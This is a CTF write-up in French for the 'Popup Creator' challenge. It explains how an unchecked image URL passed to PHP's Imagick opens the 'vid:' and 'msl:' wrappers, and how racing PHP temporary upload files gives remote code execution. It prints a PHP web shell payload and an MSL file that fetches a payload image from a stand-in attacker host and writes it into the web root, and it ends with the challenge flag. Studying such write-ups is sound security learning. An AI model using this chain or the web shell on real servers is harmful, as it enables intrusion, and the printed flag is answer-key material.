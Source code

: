 # Popup Creator

## Solve

Quand on télécharge le challenge, on remarque que celui-ci est codé en PHP sans framework connu (laravel, ...).

On remarque qu'il y a peu de code, et que le flag se situe à la racine du serveur, il faudra donc surement obtenir une exécution de code à distance.

On voit aussi qu'une SSRF est possible via l'outil, mais cela n'est pas utile dans ce challenge. Si l'on regarde dans les sources, la seule partie vraiment intéressante semble être celle ou le serveur s'occupe de traiter les images récupérées depuis le site spécifié par l'utilisateur :

```php
<?php

class ImageParser
{

    function __construct()
    {
        $this->img_data = [];
    }

    function parse_image($images)
    {
        foreach($images as $image)
        {
            try{
                $imagick = new Imagick($image);
                $imagick->resizeImage(25,25, 1, 1);
                array_push($this->img_data, base64_encode($imagick->getImageBlob()));
            }
            catch(Throwable $e){};
        }
    }
}
```

Ici, `$image` correspond au contenu de l'attribut `src` d'une balise `<img>` : `<img src="https://google.com/favicon.ico">`.
Néanmoins, le contenu de l'attribut n'est pas checké, on peut donc y mettre ce qu'on veut.

Si l'on s'intéresse à la documentation de Imagick, on voit que, dans le constructeur, on peut passer une URL, un fichier, ... mais on peut aussi utiliser des wrappers spéciaux définis internalement dans Imagick.
Deux de ces wrappers semblement prometteurs :

- `vid`: Utilise `ExandFilenames()`, ce qui signifie qu'on peut lui passer un nom de fichier avec des caractères spéciaux qui sera résolu, par exemple `/etc/passw*`
- `msl`: Pour `Magick Script Language`, permet de spécifier une source et un endroit ou écrire.

Un format msl ressemble à cela: 

```xml
<?xml version="1.0" encoding="UTF-8"?>
    <image>
        <read filename="https://google.com/favicon.ico" />
        <write filename="/home/user/Pictures/favicon.ico" />
    </image>
```

A noter que l'attribut `read` doit etre une source d'image valide !

On peut donc, avec ce fichier là, télécharger un fichier depuis un site internet et l'écrire sur le filesystem ! Il est donc possible de créer une image jpg en y insérant un commentaire (à l'aide d'exiftool) contenant une payload PHP : `<?php var_dump(shell_exec($_GET['c'])); ?>`, et demander d'écrire dans `/var/www/html/bugs.php` (seul fichier pouvant être écris par l'utilisateur www-data).

Il reste ici un problème, le fichier que l'on spécifie dans `msl` doit être un fichier local de la machine, or, dans ce challenge, il n'y a aucun moyen d'uploader un fichier.

Dans PHP, lorsqu'on upload un fichier, et meme si aucun code ne va le traiter derrière, PHP créé un fichier temporaire, généralement sous le format `/tmp/phpXXXXXXXX`, `X` étant des caractères aléatoires.

On peut donc chain cela avec nos deux wrappers `vid` et `msl` pour effectuer une race condition et exécuté notre payload :

- Démarrer un serveur web qui héberge la page `index.html` suivante:

```html
<!DOCTYPE>
<head>
    <title>RCE</title>
<body>
    <img src="vid:msl:/tmp/php*">
</body>
```

- Dans ce serveur web hébergé aussi une image `rce.png` qui contient la payload dans les commentaires de l'image.
- Uploader en continu notre fichier `exec.msl` suivant :

```xml
<?xml version="1.0" encoding="UTF-8"?>
    <image>
        <read filename="http://attacker.fr/rce.png" />
        <write filename="/var/www/html/bugs.php" />
    </image>
```

Vous pouvez retrouver le script de l'attaque dans le dossier `solve_zeecka`, merci beaucoup à Zeecka pour avoir écris la solution !

La race se gagne assez facilement, et on peut récupérer le flag.

## Flag

BZHCTF{1m4g1ck_1s_tr4g1ck_4g41n_!!}